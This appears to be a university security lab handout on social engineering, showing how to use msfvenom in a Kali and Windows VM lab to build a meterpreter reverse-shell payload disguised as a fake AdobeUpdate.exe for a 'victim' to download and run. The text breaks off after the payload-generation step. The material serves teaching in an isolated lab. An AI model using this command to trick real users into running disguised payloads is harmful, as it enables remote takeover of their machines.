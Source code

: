 ```yaml
---

title: "Lab: Social Engineering"
number: 11
description: "Only amateurs attack machines; professionals target people."
published: true
---
```


Today, social engineering attacks represent a major primary vector for hackers.
As Bruce Schneier [said][1], “Only amateurs attack machines; professionals target people.”
Further, client-side software represents a much larger attack surface than
server-side software. For these reason, many of the major breaches you read
about in the news began with a client-side attack.

[1]: https://www.schneier.com/crypto-gram-0010.html

In this lab you’ll use two leading tools to perform client-side attacks:
`msfvenom` and the Social Engineering Toolkit (SET). All of these attacks involve
creating a malicious payload
that you trick the user into executing. Both `msfvenom` and `set` use the Metasploit-Framework
to create the payloads, and you are on your own to trick the user.


# Part 1. MSFVenom with fake AdobeUpdate.exe

In this section, you’ll use `msfvenom` to perform a client-side attack.
Your goal is to (1) create a malicious executable file and (2) host it on a web server.
Following this, you will play the role of the victim using the Windows VM, and
you will (3) download and (4) run the payload, leading to the Windows VM being
exploited.

1.    Log in to Kali. Start up the Windows virtual machine.

## Play the attacker

4.    In Kali, type `msfvenom --list formats` to see a list of output formats that
      msfvenom supports. Examine the "Framework Executable Formats" section.
      We’ll use `exe` option (via `-f exe`) option to create a Windows executable.
5.    In Kali, run the following command, all on one line:

          msfvenom -p windows/meterpreter/reverse_tcp LHOST=virbr1 -f exe > /tmp/AdobeUpdate.exe

      Where:

      * `-p` -- selects the payload to be the same one we used during the exploitation lab -- `meterpreter`.
      * `-f exe` -- selects the file type of the output executable
      * `LHOST=virbr1` -- sets LHOST to be the name of the adapter on which Kali has its 192.168.56.0/24 address. msfconsole should translate it for us.
      * `> /tmp/AdobeUpdate.exe` -- redirects the output from running the `msfvenom` command into a file called `AdobeUpdate.exe`, stored in the `/tmp` directory.

        <div class='alert alert-info'>This is not actually an Adobe Update! This is our payload, <em>disguised</em>.</div>
